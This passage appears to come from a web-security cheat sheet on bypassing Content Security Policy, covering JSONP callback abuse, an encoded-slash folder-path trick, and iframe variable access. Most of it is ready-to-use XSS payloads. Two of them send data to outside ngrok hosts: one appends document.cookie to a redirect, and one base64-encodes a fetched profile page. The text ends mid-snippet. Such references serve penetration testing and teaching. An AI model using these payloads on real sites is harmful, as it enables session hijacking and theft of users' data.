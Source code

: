 Scenarios like this where script-src is set to self and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:
```javascript
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```
```javascript
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[JSONBee](https://github.com/zigoo0/JSONBee) contains ready to use JSONP endpoints to CSP bypass of different websites.

-----
**Folder path bypass**
If CSP policy points to a folder and you use `%2f` to encode `"/"`, it is still considered to be inside the folder. All browsers seem to agree with that.
This leads to a possible bypass, by using `"%2f..%2f"` if the server decodes it. For example, if CSP allows `http://example.com/company/` you can bypass the folder restriction and execute: `http://example.com/company%2f..%2fattacker/file.js`

* [Example](https://jsbin.com/werevijewa/edit?html,output)

-----
**Iframes JS execution**

**Iframes in XSS**

There are 3 ways to indicate the content of an iframed page:
* Via src indicating an URL (the URL may be cross origin or same origin)
* Via src indicating the content using the data: protocol
* Via srcdoc indicating the content

**Accesing Parent & Child vars**
```html
<html>
  <script>
  var secret = "31337s3cr37t";
  </script>

  <iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if2" src="child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

  <script>
  function access_children_vars(){
    alert(if1.secret);
    alert(if2.secret);
    alert(if3.secret);
    alert(if4.secret);
  }
  setTimeout(access_children_vars, 3000);
  </script>
</html>

```
```html
<!-- content of child.html -->
<script>
```